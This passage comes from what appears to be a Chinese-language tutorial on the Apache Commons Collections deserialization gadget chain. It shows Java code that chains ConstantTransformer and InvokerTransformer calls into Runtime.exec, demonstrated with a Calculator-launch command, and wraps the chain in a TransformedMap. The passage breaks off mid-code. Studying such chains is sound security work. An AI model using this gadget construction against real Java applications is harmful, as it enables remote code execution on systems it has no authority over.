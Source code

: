 ![image-20230307000103462](attachments/image-20230307000103462.png)

## 0x05 ChainedTransformer

`ChainedTransformer#transform()`可以接受一个 `Transform`数组，实现一个递归的 `transform()` 调用，因此最终改写payload

![image-20230307003312398](attachments/image-20230307003312398.png)

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec",new Class[]{String.class}, new Object[]{"open -a Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

//        Transformer getMethodTransformer = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null});
//        Method getRuntimeMethod = (Method) getMethodTransformer.transform(Runtime.class);
//        Transformer runtimeTransformer = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null});
//        Runtime runtime = (Runtime) runtimeTransformer.transform(getRuntimeMethod);
//        Transformer execTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"open -a Calculator.app"});
//        execTransformer.transform(runtime);

        HashMap map = new HashMap();
        map.put("value", "value");
        Map<Object, Object> transMap = TransformedMap.decorate(map, null, chainedTransformer);
//        for (Map.Entry entry : transMap.entrySet()) {
```